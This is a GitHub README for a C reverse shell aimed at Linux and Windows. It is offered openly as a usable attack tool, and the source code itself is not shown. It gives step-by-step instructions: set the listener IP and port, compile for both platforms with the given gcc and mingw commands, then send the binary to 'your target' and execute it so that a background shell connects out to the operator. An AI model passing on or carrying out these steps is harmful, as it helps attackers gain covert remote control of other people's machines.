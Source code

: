 # c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

Features:
- Works on Linux and Windows.
- Just one `.c` file.
- Runs in the background (on both, Linux and Windows).
- You can choose between waiting for the client (if it's no listening) or not.
- Compile with just one command (see at the bottom of the `README.md`), there is also a `Makefile`.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` binary is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change the `CLIENT_IP` and `CLIENT_PORT` in the file `reverse-shell.c` (lines 20 and 21):
```diff
 /* ================================================== */
 /* |      CHANGE THIS TO YOUR IP AND YOUR PORT      | */
 /* ================================================== */
-#define CLIENT_IP "0.0.0.0"
-#define CLIENT_PORT (int)0
+#define CLIENT_IP "XXX.XXX.XXX.XXX"
+#define CLIENT_PORT (int)XXXX
 /* ================================================== */
```


3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other `Makefile` rules:
- `make all`
- `make linux`
- `make windows`
- `make re`
-
- `make all WAIT_FOR_CLIENT=TRUE`
- `make linux WAIT_FOR_CLIENT=TRUE`
- `make windows WAIT_FOR_CLIENT=TRUE`
- `make re WAIT_FOR_CLIENT=TRUE`
-
- `make clean`

In case you don't have the `Makefile`, just copy the `reverse-shell.c` file and compile it with the following command:
- Linux
```sh
gcc -std=c99 -Wall -Wextra -Werror -o rsh.out reverse-shell.c -D LINUX
```
```sh
gcc -std=c99 -Wall -Wextra -Werror -o rsh.out reverse-shell.c -D LINUX -D WAIT_FOR_CLIENT
```
- Windows:
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -Wall -Wextra -Werror -o rsh.exe reverse-shell.c -D WIN32 -lws2_32
```
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -Wall -Wextra -Werror -o rsh.exe reverse-shell.c -D WIN32 -lws2_32 -D WAIT_FOR_CLIENT
```

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
